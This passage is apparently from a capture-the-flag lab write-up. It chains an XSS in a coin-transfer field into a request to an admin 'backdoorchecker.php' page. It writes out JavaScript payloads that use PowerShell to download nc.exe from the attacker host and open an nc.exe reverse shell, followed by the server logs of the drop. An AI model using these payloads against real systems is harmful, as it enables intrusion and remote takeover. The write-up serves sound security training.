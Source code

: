 After taken a short break, I then observed that since maybe we can't manipulate the backdoorchecker field from our host. Why not just go back to the XSS we found in the coin transfer and do SSRF to get a RCE. In-fucking-deed! 

let's weaponize this mothafucker.


XSS To drop nc.exe:
`<script src=http://10.10.14.40/payd.js%3E</script>`

XSS to Reverse Shell:
`<script src=http://10.10.14.40/pay.js%3E</script>`

`payd.js`
```
//Dropper:
function paintfunc(){
    var http = new XMLHttpRequest();
        var url = 'http://localhost/admin/backdoorchecker.php';
        var params = 'cmd=dir | powershell -c Invoke-WebRequest -Uri "http://10.10.14.40/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"';
        http.open('POST', url, true);
        http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        http.send(params);
}

paintfunc();
```
`pay.js`
```
//Execution:
function paintfunc(){
    var http = new XMLHttpRequest();
        var url = 'http://localhost/admin/backdoorchecker.php';
        var params = 'cmd=dir | powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe 10.10.14.40 4444';
        http.open('POST', url, true);
        http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        http.send(params);
}

paintfunc();
```
delivered our payload and confirmation of our drop.
```
┌─[account@parrot]─[~/tmp]
└──╼ $sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.40 - - [21/Mar/2020 05:34:52] "GET / HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 05:37:54] "GET /payd.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 05:37:55] "GET /nc.exe HTTP/1.1" 200 -
```
Initalize a netcat tcp socket to listen for our reverse shell.
`nc -lvp 4444`
Start my webserver for SSRF
```
┌─[account@parrot]─[~/tmp]
└──╼ $sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [21/Mar/2020 05:37:54] "GET /payd.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 05:37:55] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 06:01:54] "GET /pay.js HTTP/1.1" 200 -
```
After sending our XSS payload and waiting. We eventually get our user shell.
```
┌─[account@parrot]─[~/tmp]
```